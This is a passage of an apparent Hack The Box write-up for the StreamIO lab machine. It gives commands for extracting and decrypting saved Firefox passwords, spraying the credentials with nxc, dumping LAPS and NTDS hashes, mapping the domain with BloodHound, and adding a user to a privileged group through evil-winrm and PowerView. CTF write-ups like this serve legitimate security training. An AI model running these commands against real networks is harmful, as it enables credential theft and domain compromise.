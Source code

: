 cd into path and download key4.db and logins.json on our machine

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915212743.png)

Get firepwd script to your machine, 
https://github.com/lclevy/firepwd
Next cp key4.db and logins.json into firewpd.py directory and run script

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915212849.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915212932.png)

It finds saved user:password for slack.streamio.htb

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915213409.png)

It is always good to check all combinations for new user:pass and this time we got hit

```
nxc smb streamio.htb -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915213647.png)

Unlikely we don't have winrm access so the best way to enumerate futher is checking bloodhound

```
bloodhound-python -d streamio.htb -u jdgodd -p 'JDg0dd1s@d0p3cr3@t0r' -ns 10.10.11.158 -c all
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915214347.png)

Tried easy win but we need to add ourself do the Core Staff group firest

```
nxc smb 10.10.11.158 -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' --laps --ntds --user Administrator
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915215533.png)

So connect via winrm

```
evil-winrm -i 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'
upload powerview.ps1
Import-Module .\powerview.ps1
```

Next we need JDgodd creds let's use htb cheat sheet method 

```
$pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force *Evil-

$cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $pass)
```

add him to the Core Staff group
